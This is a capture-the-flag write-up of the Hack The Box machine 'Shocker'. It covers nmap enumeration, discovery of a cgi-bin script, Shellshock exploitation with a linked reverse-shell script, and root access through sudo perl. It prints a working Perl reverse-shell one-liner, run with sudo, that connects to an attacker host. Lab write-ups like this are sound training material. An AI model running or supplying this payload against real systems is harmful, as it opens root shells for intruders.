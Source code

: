```yaml
---
layout: post
title: HTB Shocker
subtitle: Shocker CTF from Hackthebox.eu
tags: [HTB, Hackthebox, Mirai, CTF]
---
```


Below is my write-up on Shocker from HTB. 
At the time of writing, the IP address was 10.10.10.56. Unfortunately, I had lost my write-ups for Shocker & Nibbles. I'm rebuilding them, however it is done after the fact and with way less struggling. So let's get started!

let's hit nmap first.

`└──╼ $nmap -T4 -A -v 10.10.10.56`
```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-12 07:17 MST
NSE: Loaded 146 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 07:17
Completed NSE at 07:17, 0.00s elapsed
Initiating NSE at 07:17
Completed NSE at 07:17, 0.00s elapsed
Initiating Ping Scan at 07:17
Scanning 10.10.10.56 [2 ports]
Completed Ping Scan at 07:17
Completed Parallel DNS resolution of 1 host. at 07:17, 0.06s elapsed
Initiating Connect Scan at 07:17
Scanning 10.10.10.56 [1000 ports]
Discovered open port 80/tcp on 10.10.10.56
Discovered open port 2222/tcp on 10.10.10.56
Completed Connect Scan at 07:18, 26.81s elapsed (1000 total ports)
Initiating Service scan at 07:18
Scanning 2 services on 10.10.10.56
Completed Service scan at 07:18, 6.59s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.56.
Initiating NSE at 07:18
Completed NSE at 07:18, 10.10s elapsed
Initiating NSE at 07:18
Completed NSE at 07:18, 0.00s elapsed
Nmap scan report for 10.10.10.56
Host is up (0.42s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (EdDSA)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 07:18
Completed NSE at 07:18, 0.00s elapsed
Initiating NSE at 07:18
Completed NSE at 07:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.62 seconds
```


Hmm ok. Well, we've got web and ssh. Let's hit the website and see what's up!
![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker1.jpg?raw=true)
Nothing too interesting there..source?

```
> <!DOCTYPE html><html><body>
><h2>Don't Bug Me!</h2><img src="bug.jpg" alt="bug" style="width:450px;height:350px;">
></body></html> 
```

Ok yeah, still not much to go on here. Let's try to find any other pages on the site. 

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker2.jpg?raw=true)

Hmm...Disappointing. 
Not really much to go on here.

Thinking about the name of the box, I'm guessing shocker had to do with the shellshock vulnerability. However, I am not seeing anything in the cgi-bin folder that is exploitable. I even downloaded a special cgi-bin wordlist. What am I missing?
Ok, I figured it out. Apparently I was looking for only bin, py and didn't do a search for .sh. So I found user.sh in the cgi-bin folder and now we have our way in.
So in terms of the actual exploit, I found [this neat python script](https://gist.github.com/matjohn2/bc9689c60d4c9c5a2538/) from user [matjohn2 on github](https://github.com/matjohn2/) Thanks, matjohn2!

Super simple, it has the reverse shell built in! So I launch that and Aw yes, we got that userrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrr!

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker3.jpg?raw=true)


Sup' shelly what have you got in store for us?

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker4.jpg?raw=true)

After minimal enumeration 
`sudo -l`
I found this...

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker5.jpg?raw=true)

Whaaaat, Shelly you shouldn't have. (Really, you shouldn't have!)

So it's just as simple as starting up another netcat listener terminal window and sending this glorious reverse shell: 

```
sudo perl -e 'use Socket;$i="myip";$p=myport;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker6.jpg?raw=true)

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker7.jpg?raw=true)

My face when I saw that: 


![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker8.jpg?raw=true)



So now that this box is all said and done, I did struggle a lot before I realized it was shellshock. I even remember examining the image of the "bug" for steganagrophy. My lesson for this write-up...Make backups of your notes :). Thanks again for reading!
